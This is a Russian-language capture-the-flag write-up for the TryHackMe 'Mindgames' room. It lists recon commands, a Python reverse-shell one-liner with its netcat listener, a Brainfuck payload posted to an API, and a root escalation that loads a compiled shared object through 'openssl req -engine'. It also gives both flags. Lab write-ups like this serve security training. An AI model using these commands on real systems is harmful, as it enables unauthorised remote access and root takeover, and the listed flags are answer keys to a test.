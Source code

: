 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Mindgames](https://tryhackme.com/r/room/mindgames) 

Всего 1 заданиe:
## Задание 1
Никаких подсказок. Взломайте. Не сдавайтесь, если застрянете, перечислите сложнее

### Ответьте на вопросы ниже
Пользовательский флаг.
```commandline
nmap -sSCV <IP>
curl -s http://<IP>
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("my_own_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
nc -nlvp 4444
curl -d "+++++ +++++ [REDACTED] ++ ++<]> ++.<" -X POST http://<IP>/api/bf
cat /home/user.txt
```
```commandline
thm{411f7d38247ff441ce4e134b459b6268}
```
+ 50
Корневой флаг.
+ 
```commandline
cat server.service 
gcc -fPIC -o rootshell.o -c rootshell.c
gcc -shared -o rootshell.so -lcrypto rootshell.o
chmod +x rootshell.so
openssl req -engine ./rootshell.so
cat /root/root.txt 
```
```commandline
thm{1974a617cc84c5b51411c283544ee254}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)